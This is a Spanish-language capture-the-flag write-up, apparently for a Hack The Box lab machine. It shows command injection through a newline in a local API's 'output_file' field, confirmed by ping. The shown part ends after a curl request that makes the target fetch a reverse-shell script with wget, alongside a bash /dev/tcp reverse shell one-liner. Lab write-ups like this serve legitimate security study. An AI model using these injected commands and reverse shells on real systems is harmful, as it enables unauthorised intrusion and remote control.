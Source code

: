 ```terminal
developer@bigbang:/tmp$ curl -POST http://127.0.0.1:9090/command -H "Content-type:application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NzMyNDE0MSwianRpIjoiMzdjMmVlMWEtOTExZi00Y2NkLWE5YmYtNDE2M2E1YzQzNjZkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NzMyNDE0MSwiY3NyZiI6ImMyNDBmMGJhLWM5MDAtNGU5Yy1iYmU3LWQ2MjFlYmIyNmU0NyIsImV4cCI6MTc0NzMyNzc0MX0.pqD7zHDgeVztzfgNhgencrex2Q7vTMnl-A0FPMKqJd4" -d '{"command":"send_image", "output_file": "test.png;id"}'
{"error":"Output file path contains dangerus characters"}
```

El servidor bloquea todos los caracteres comúnmente usados en inyecciones de comandos. Sin embargo, al usar el carácter de nueva línea `\n`. En lugar de devolver el error `Output file path contains dangerous characters`, el servidor intentó interpretar todo el contenido como una ruta de archivo, lo que sugiere que no se está filtrando este carácter.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Aunque el error devuelto indica que no pudo leer el archivo, la ejecución de ping fue exitosa, esto confirma la inyeccion de comandos.

```terminal
developer@bigbang:/tmp$ curl -POST http://127.0.0.1:9090/command -H "Content-type:application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NzMyNDE0MSwianRpIjoiMzdjMmVlMWEtOTExZi00Y2NkLWE5YmYtNDE2M2E1YzQzNjZkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NzMyNDE0MSwiY3NyZiI6ImMyNDBmMGJhLWM5MDAtNGU5Yy1iYmU3LWQ2MjFlYmIyNmU0NyIsImV4cCI6MTc0NzMyNzc0MX0.pqD7zHDgeVztzfgNhgencrex2Q7vTMnl-A0FPMKqJd4" -d '{"command":"send_image", "output_file": "test.png\nping -c 1 10.10.14.249"}'
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\nping -c 1 10.10.14.249'"}
```

```terminal
13:01:40.868424 IP bigbang.htb > 10.10.14.249: ICMP echo request, id 2, seq 1, length 64
13:01:40.868466 IP 10.10.14.249 > bigbang.htb: ICMP echo reply, id 2, seq 1, length 64
```

---

Luego de confirmar la ejecución de comandos mediante inyección en el parámetro `output_file`, se procedió a ejecutar una reverse shell para obtener acceso interactivo como root.

* Generó un script que establece una conexión inversa hacia mi maquina de atacante y sirvo el archivo desde un servidor http.

* Luego utilizó el mismo punto de inyección para descargar el script en la máquina víctima.

```terminal
/home/kali/Documents/htb/machines/bigbang:-$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.249/443 0>&1' > shell

/home/kali/Documents/htb/machines/bigbang:-$ python3 -m http.server

developer@bigbang:/tmp$ curl -POST http://127.0.0.1:9090/command -H "Content-type:application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0NzMyNDE0MSwianRpIjoiMzdjMmVlMWEtOTExZi00Y2NkLWE5YmYtNDE2M2E1YzQzNjZkIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTc0NzMyNDE0MSwiY3NyZiI6ImMyNDBmMGJhLWM5MDAtNGU5Yy1iYmU3LWQ2MjFlYmIyNmU0NyIsImV4cCI6MTc0NzMyNzc0MX0.pqD7zHDgeVztzfgNhgencrex2Q7vTMnl-A0FPMKqJd4" -d '{"command":"send_image", "output_file": "test.png\nwget http://10.10.14.249:8000/shell -O /tmp/shell"}'
{"error":"Error reading image file: [Errno 2] No such file or directory: 'test.png\\nwget http://10.10.14.249:8000/shell -O /tmp/shell'"}
```
